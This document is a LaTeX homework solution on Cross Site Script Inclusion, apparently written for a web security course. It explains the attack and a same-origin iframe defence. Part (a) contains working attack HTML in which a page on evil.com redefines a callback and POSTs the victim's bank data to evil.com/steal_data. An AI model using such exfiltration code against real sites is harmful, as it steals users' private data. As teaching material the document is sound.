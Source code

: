\documentclass[12pt]{article}
\begin{document}
\section*{Problem 2}
\begin{enumerate}[label=(\alph*)]
	\item This is a straight-forward case of Cross Site Script Inclusion. Since the ``userdata.js'' script is generated dynamically, https://evil.com can simply have the following code on its page:
	\begin{lstlisting}
		<!DOCTYPE html>
		<html>
		<body>
			<p>Thanks for visiting!</p>
			<script>
			function displayData(data) {
				const req = new XMLHttpRequest();
				req.withCredentials=true;
				req.open('POST', 'https://evil.com/steal_data');
				req.setRequestHeader('Content-Type', 'application/json');
				req.send(JSON.stringify(data));
			}
			</script>
			<script src="//bank.com/userdata.js"> </script>
		</body>
		</html>
	\end{lstlisting}
	Note that when the ``userdata.js'' script is loaded, the browser will automatically send the authentication cookies for https://bank.com along with the request to fetch the script. From the point of view of the bank.com server, this is a completely legitimate request, and thus it will generate and return the script with John Doe's data. However, now the script will execute in the context of the evil.com page, which has defined a different implementation of displayData, which in this case, does not display it, but instead sends it to a handler in evil.com and steals it.

	\item We can modify the code to load the dynamically generated data in an iframe. We can change the code to be:
	\begin{lstlisting}
	<iframe src="//bank.com/userdata.html"> </iframe>
	\end{lstlisting}
	We now change ``userdata.js'' into an html file (``userdata.html'') which will, again, simply contain, in <script> tags, the javascript  calling the displayData function.

	However, note that by default, iframes are restricted by the same-origin policy (SOP). When we load the iframe into https://bank.com, the code can access the DOM of the main page, and therefore can call the defined displayData function to display the secret data. However. due to SOP, if an attacker tries to load the iframe into their site (ie, https://evil.com), the iframe will not be able to access the DOM of the main page (and vice-versa), since they have different origins. Therefore, no matter what the attacker does to his own page, he will not be able to access the secret data loaded in the iframe in any way.
\end{enumerate}
\end{document}
